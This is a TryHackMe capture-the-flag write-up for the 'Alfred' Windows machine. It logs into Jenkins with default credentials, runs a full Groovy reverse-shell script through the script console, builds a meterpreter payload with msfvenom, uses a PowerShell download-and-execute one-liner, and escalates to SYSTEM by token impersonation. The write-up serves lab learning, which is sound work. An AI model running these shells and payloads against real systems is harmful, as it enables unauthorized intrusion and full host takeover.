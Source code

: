 ```yaml
---
layout: solution
category: TryHackMe
contest_code: General
contest_name: General
problem_code: ALFRED
problem_name: Alfred
comments: false
tags: jenkins windows_tokens
date: 2021-08-28
---
```


### A simple nmap scan was conducted on the machine. Turns out it is running a website on port 80 and 8080. Also running RDP on port 3389

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/nmap.png)

‎


### The website on port 80 does not look interesting enough

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/web1.png)

‎


### The website on port 8080 was found to have a login page. Default `admin:admin` credentials was used to login into the webpage

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/web2.png)

‎


### After logged in as admin, it brought us to this page, where it can be used to manage Jenkins

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/index.png)

‎


### The script page allowed us to execute remote commands in groovy language. This allows us to perform RCE. 

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/command_exec.png)

‎


### A reverse shell groovy script was created and executed to gain a reverse shell
```groovy
String host="10.11.21.149";
int port=9999;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/reverse_shell.png)

<p style="color:orange;">The reverse shell was obtained using Ncat as a listener</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/ncat.png)

<p style="color:orange;">We are able to get our first flag</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/flag1.png)

‎


### It's always good to always to obtain a better shell for higher flexibility. Thus I had attempted to upgrade this simple shell to a meterpreter shell and hosted it on port 80
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.21.149 LPORT=8000 -f exe -o shell.exe
```
<p style="color:orange;">Creating Meterpreter shell</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/msfconsole.png)

<p style="color:orange;">Hosting Payload</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/host.png)

‎


### However, this machine runs on older version of powershell  which does not support `Invoke-WebRequest` library (alternative to wget). Thus, another approach was used to download our meterpreter payload to obtain a meterpreter shell
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.21.149/shell.exe','shell.exe')" && shell.exe
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/download.png)

<p style="color:orange;">Obtaining a reverse meterpreter shell</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/meterpreter_shell.png)

‎


### In order to privilege escalate we can impersonate windows tokens.
### Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).
### Thus, we can view all the privileges using `whoami /priv`. We can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. We can use the incognito module that will allow us to exploit this vulnerability
```
whoami /priv
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/privilege_list.png)

‎


### We can list user token by using the command `list_tokens -u`. We are able to see that NT Authority\System token is available. We then can proceed impersonating the token by executing `impersonate_token NT AUTHORITY\SYSTEM` to escalate our privilege

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/escalation.png)

‎


### However, even though we have a higher privileged token, we may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). 
### To mitigate from this, we can migrate to a process with correct permissions. The safest process to pick is the `services.exe` process.

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/root.png)
